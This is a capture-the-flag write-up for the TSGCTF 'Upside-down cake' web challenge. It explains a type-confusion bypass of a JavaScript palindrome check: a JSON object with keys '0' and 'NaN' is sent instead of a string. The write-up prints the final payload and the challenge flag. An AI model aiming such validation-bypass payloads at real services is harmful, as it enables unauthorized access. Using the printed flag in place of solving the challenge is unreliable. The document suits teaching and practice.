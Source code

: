 # Upside-down cake
> I checked 413 times to see if the settings are correct.

## About the Challenge
We were given a source code (You can download the source code [here](upside-down_cake.tar.gz)) where we can check if our input is "palindrome" or not

![preview](images/preview.png)

To get the flag we need to input the "palindrome" string which has 1000 characters

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}

	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return null;
}
```

At first, I thought we needed to input `"a"*1000"`. Isn't this challenge too easy?" Not at all. If you check the nginx configuration, you can see that there's a limitation where we can only input 100 characters in the HTTP Body.

```
events {
	worker_connections 1024;
}

http {
	server {
		listen 0.0.0.0:12349;
		client_max_body_size 100;
		location / {
			proxy_pass http://app:12349;
			proxy_read_timeout 5s;
		}
	}
}
```

## How to Solve?
First, we have to bypass the character length check

```javascript
if (string.length < 1000) {
	return 'too short';
}
```

How to do that? Instead of input a string nor an array, we need to input JSON inside the palindrome value, for example

```json
{
    "palindrome": {
        "test":"test"
    }
}
```

![bypass](images/bypass.png)

We have bypassed the length check, and now we need to input a "palindrome" string. To do this, i wrote a simple code to debug the `validatePalindrome()` function in my computer

```javascript
const validatePalindrome = (string) => {
	if (string.length < 1000) {
		return 'too short';
	}
 
	for (const i of Array(string.length).keys()) {
		const original = string[i];
		const reverse = string[string.length - i - 1];

		console.log("Original: " + original)
		console.log("Reverse: " + reverse)

		if (original !== reverse || typeof original !== 'string') {
			return 'not palindrome';
		}
	}

	return 1;
}

const test = {"test":"test"};

console.log(validatePalindrome(test));
```

And if you run the code, the output will be

```
Original: undefined
Reverse: undefined
not palindrome
```

Why is it `undefined`? That's because we input JSON instead of an array or a string, for example:

```javascript
test1 = "test"
test2 = ["test"]
test3 = {"test":"test"}

console.log(test1[0]) //Output: t
console.log(test2[0]) //Output: test
console.log(test3[0]) //Output: undefined
```

To make the code output the string you input instead of `undefined`, you can provide input as `{"0":"a"}`. Wait, how? Here's another example:

```javascript
const test = {"0":"a"};
console.log(test[0])
```

The output will be `a` because we're accessing the property with the key `0` in the object `test` using bracket notation, and that property contains the value `a`.

If we recode the our code again, the output will be:

```
Original: a
Reverse: undefined
not palindrome
```

If you recheck the `reverse` part

```javascript
const reverse = string[string.length - i - 1];
```

The output will be `undefined`, why? That's because the value of `string.length` is `undefined`

```javascript
console.log(undefined - 1) // NaN
```

Then provide the second key-value pair, `"NaN":"a"` (the explanation is the same as above). And the final payload will be

```json
{"palindrome":{"0":"a","NaN":"a"}}
```

![flag](images/flag.png)

```
TSGCTF{pilchards_are_gazing_stars_which_are_very_far_away}
```